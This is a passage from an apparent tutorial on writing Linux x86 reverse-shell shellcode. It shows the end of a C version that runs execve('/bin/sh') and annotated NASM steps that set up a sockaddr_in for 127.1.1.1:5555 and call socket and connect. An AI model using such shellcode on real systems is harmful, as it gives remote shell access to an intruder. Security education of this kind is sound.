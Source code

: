 ```c
    execve("/bin/sh", 0, 0);

    return 0;
}
```


Now, let's get to work.
=

### 1.3) The assembly code

1.3.1) The first step is to initialize the stack and the registers:
```nasm
;This part initialize the registers and the stack
mov ebp, esp        ;Initialize the stack frame

xor eax, eax        ;Initialize eax to NULL
xor ebx, ebx        ;Initialize ebx to NULL
xor ecx, ecx        ;Initialize ecx to NULL
xor edx, edx        ;Initialize edx to NULL
```

1.3.2) The second step is to push the sockaddr_in struct in the stack:
```nasm
;This part push the structure "sockaddr_in" on the stack
;C code representation:
;   struct sockaddr_in struct
;   addr.sin_family = AF_INET;
;   addr.sin_port = htons(5555);
;   addr.sin_addr.s_addr = inet_addr("127.1.1.1");

push eax
push eax            ;Fill the end of the structure with 2 NULL Bytes
push 0x0101017f     ;Initialize the variable "addr.sin_addr.s_addr" to connect to 127.1.1.1  
push word 0xb315    ;Initialize the variable "addr.sin_port" to connect on port 5555 
push word 0x02      ;Initialize the variable "addr.sin_family" to IPV4 (AF_INET)
```

1.3.3) We can now call the "socket" systemcall which will create an endpoint for communication:
```nasm
;This part initialize and call the "socket" systemcall
mov ax, 0x167       ;Move the "socket" systemcall number inside ax
mov bl, 0x02        ;Move the "AF_INET" value (which means IPV4) inside bl
mov cl, 0x01        ;Move the "SOCK_STREAM" value (which means TCP) inside cl

;C code representation of the systemcall:
; --> s = socket(AF_INET, SOCK_STREAM, 0);
int 0x80            ;Execute the systemcall
mov esi, eax        ;Move the return value from the "socket" systemcall into esi
```

1.3.4) Then, we need to call the "connect" systemcall which will initiate a connection on a socket:
```nasm
;This part initialize and call the "bind" systemcall
xor eax, eax        ;Initialize eax to NULL
mov ax, 0x16a       ;Move the "connect" systemcall number inside ax
mov ebx, esi        ;Move the return value of "socket" inside ebx
mov ecx, esp        ;Point ecx to the structure
;Get the structure size
mov edx, ebp        
sub edx, esp        ;Use the stack pointers (esp and ebp to calculate the size of the structure)

;C code representation of the systemcall:
; --> connect(s, (struct sockaddr *)&sa, sizeof(sa));
int 0x80            ;Execute systemcall
```